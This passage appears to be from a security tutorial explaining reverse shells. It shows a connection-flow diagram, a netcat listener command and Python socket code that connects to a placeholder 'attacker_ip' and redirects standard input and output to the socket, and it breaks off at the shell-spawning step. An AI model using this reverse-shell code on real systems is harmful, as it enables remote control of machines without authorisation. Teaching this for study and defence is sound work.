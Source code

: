 ### The Flow

```
Attacker Machine                    Target Machine
     |                                    |
Sets up listener on port 4444             |
Waiting for connection                    |
     |                                    |
     |  ---- Use RCE to start shell ----> |
     |  <---- Connects to attacker ------ | (Outgoing connection)
     |                                    |
     |  ------- Shell commands ---------> |
     |  <------ Command output ---------- |
```
*The target initiates the connection (outgoing traffic), which firewalls typically permit.*

## How Reverse Shells Work Technically
Every reverse shell follows three fundamental steps:

### 1. Set Up Listener (Your Machine)
Before exploiting, start listening for incoming connections. Here's a basic example with **netcat:**

```bash
nc -lvnp 4444
```

- `nc` = netcat (networking utility)
- `-l` = listen mode
- `-v` = verbose output
- `-n` = no DNS lookup
- `-p 4444` = listen on port 4444

**What this does**: Creates a TCP listener waiting for the target to connect back.

### 2. Send Payload to Target
Using your RCE capability, execute code on the target that does three things:

1. Opens a network connection to your IP and port

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("attacker_ip", 4444))
```

2. Redirects standard input/output/error to the network socket **(UNIX SPECIFIC)**

```python
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr
```

3. Spawns a shell process
